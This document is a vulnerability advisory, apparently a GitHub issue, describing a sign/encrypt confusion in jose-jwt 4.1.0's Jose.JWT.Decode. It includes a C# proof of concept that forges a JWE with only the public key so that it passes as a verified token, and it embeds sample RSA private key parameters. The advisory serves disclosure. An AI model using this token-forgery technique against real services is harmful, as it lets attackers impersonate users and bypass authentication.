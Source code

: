 # dvsekhvalnov/jose-jwt has a sign/encrypt confusion problem

## 0x01 Affected version

vendor: https://github.com/dvsekhvalnov/jose-jwt

version: 4.1.0

.NET version: 9

## 0x02 Vulnerability description

A privilege bypass vulnerability exists in `Jose.JWT.Decode` in `dvsekhvalnov/jose-jwt 4.1.0`, which could allow a user to bypass its identity checks under certain circumstances.

`Jose.JWT.Decode` will automatically detect whether the user inputs JWS or JWE. This means that if the attacker obtains the public key of JWS, he can forge a JWE Token to pass the verification.

The following code is an example of using JWE to bypass `Jose.JWT.Decode` here.

```c#
using System;
using System.Security.Cryptography.X509Certificates;
using Jose;

class Program
{
    static void Main()
    {
        var payload = new Dictionary<string, object>()
{
    { "sub", "mr.x@contoso.com" },
    { "exp", 1300819380 }
};

        Jwk Key = new Jwk(
            e: "AQAB",
            n: "qFZv0pea_jn5Mo4qEUmStuhlulso8n1inXbEotd_zTrQp9K0RK0hf7t0K4BjKVhaiqIam4tVVQvkmYeBeYr1MmnO_0N97dMBz_7fmvyv0hgHaBdQ5mR5u3LTlHo8tjRE7-GzZmGs6jMcyj7HbXobDPQJZpqNy6JjliDVXxW8nWJDetxGBlqmTj1E1fr2RCsZLreDOPSDIedG1upz9RraShsIDzeefOcKibcAaKeeVI3rkAU8_mOauLSXv37hlk0h6sStJb3qZQXyOUkVkjXIkhvNu_ve0v7LiLT4G_OxYGzpOQcCnimKdojzNP6GtVDaMPh-QkSJE32UCos9R3wI2Q",
            p: "0qaOkT174vRG3E_67gU3lgOgoT6L3pVHuu7wfrIEoxycPa5_mZVG54SgvQUofGUYEGjR0lavUAjClw9tOzcODHX8RAxkuDntAFntBxgRM-IzAy8QzeRl_cbhgVjBTAhBcxg-3VySv5GdxFyrQaIo8Oy_PPI1L4EFKZHmicBd3ts",
            q: "zJPqCDKqaJH9TAGfzt6b4aNt9fpirEcdpAF1bCedFfQmUZM0LG3rMtOAIhjEXgADt5GB8ZNK3BQl8BJyMmKs57oKmbVcODERCtPqjECXXsxH-az9nzxatPvcb7imFW8OlWslwr4IIRKdEjzEYs4syQJz7k2ktqOpYI5_UfYnw1s",
            d: "lJhwb0pKlB2ivyDFO6thajotClrMA3nxIiSkIUbvVr-TToFtha36gyF6w6e6YNXQXs4HhMRy1_b-nRQDk8G4_f5urd_q-pOn5u4KfmqN3Xw-lYD3ddi9qF0NLeTVUNVFASeP0FFqbPYfdNwD-LyvwjhtT_ggMOAw3mYvU5cBfz6-3uPdhl3CwQFCTgwOud_BA9p2MPMUHG82wMK_sNO1I0TYpjm7TnwNBwiKbMf-i5CKnuohgoYrEDYLeMg3f32eBljlCFNYaoCtT-mr1Ze0OTJND04vbfLotV-BBKulIpbOOSeVpKG7gJxZHmv7in7PE5_WzaxKFVoHW3wR6v_GzQ",
            dp: "KTWmTGmf092AA1euOmRQ5IsfIIxQ5qGDn-FgsRh4acSOGE8L7WrTrTU4EOJyciuA0qz-50xIDbs4_j5pWx1BJVTrnhBin9vNLrVo9mtR6jmFS0ko226kOUpwEVLgtdQjobWLjtiuaMW-_Iw4gKWNptxZ6T1lBD8UWHaPiEFW2-M",
            dq: "Jn0lqMkvemENEMG1eUw0c601wPOMoPD4SKTlnKWPTlQS6YISbNF5UKSuFLwoJa9HA8BifDrD-Mfpo1M1HPmnoilEWUrfwMqqdCkOlbiJQhKY8AZ16QGH50kDXhmVVa8BRWdVQWBTUzWXS5kXMaeskVzextTgymPcOAhXN-ph7MU",
            qi: "sRAPigJpl8S_vsf1zhJTrHM97xRwuB26R6Tm-J8sKRPb7p5xxNlmOBBFvWmWxdto8dBElNlydSZan373yBLxzW-bZgVp-B2RKT1B3WhTYW_Vo5DLhWi84XMncJxH7avtxtF9yksaeKe0e2n3J6TTan53mDg4KF8U0OEO2ciqO9g"
        );

        Jwk PubKey = new Jwk(
            e: "AQAB",
            n: "qFZv0pea_jn5Mo4qEUmStuhlulso8n1inXbEotd_zTrQp9K0RK0hf7t0K4BjKVhaiqIam4tVVQvkmYeBeYr1MmnO_0N97dMBz_7fmvyv0hgHaBdQ5mR5u3LTlHo8tjRE7-GzZmGs6jMcyj7HbXobDPQJZpqNy6JjliDVXxW8nWJDetxGBlqmTj1E1fr2RCsZLreDOPSDIedG1upz9RraShsIDzeefOcKibcAaKeeVI3rkAU8_mOauLSXv37hlk0h6sStJb3qZQXyOUkVkjXIkhvNu_ve0v7LiLT4G_OxYGzpOQcCnimKdojzNP6GtVDaMPh-QkSJE32UCos9R3wI2Q"
            );
        string token_jwe = Jose.JWT.Encode(payload, PubKey, JweAlgorithm.RSA_OAEP, JweEncryption.A256GCM);
        string token_jwt = "eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJtci54QGNvbnRvc28uY29tIiwiZXhwIjoxMzAwODE5MzgwfQ.bsUx8i-4yETsg9VsvDJ69ADfLPm3JS-JL5L7q2_sEbyGVTlOiEfu9JT_sFdOcqS89phseRu_LjHqn2AbfCtVorLv1oOA15Rwj3qt8F6FUvvXlzsTJsYXo44KxdBfhrGrSUxGvcQ1dgvtsnpQet6HFlEl76QxVQVzmj0zd375L7DWLlzdV4IIXgL6OjIySdiYktIeeCiAITtaSvQOy009C_TPUP4mKLf2PhUXFvGi9VmSghgVok240zTjt_S9u3RwLoBYs273SkOHiCZ0VxlVG2YF6Rii5SCupsZEWnQmCcMEfgGKXEV8ysYPX8EA1sGvFZq2G6aOpaVFdh53CbmHfw";
        Console.WriteLine(Jose.JWT.Decode(token_jwe, Key, JwsAlgorithm.RS256));
        Console.WriteLine(Jose.JWT.Decode(token_jwt, Key, JwsAlgorithm.RS256));
    }
}
```

## 0x03 Acknowledgement

P3ngu1nW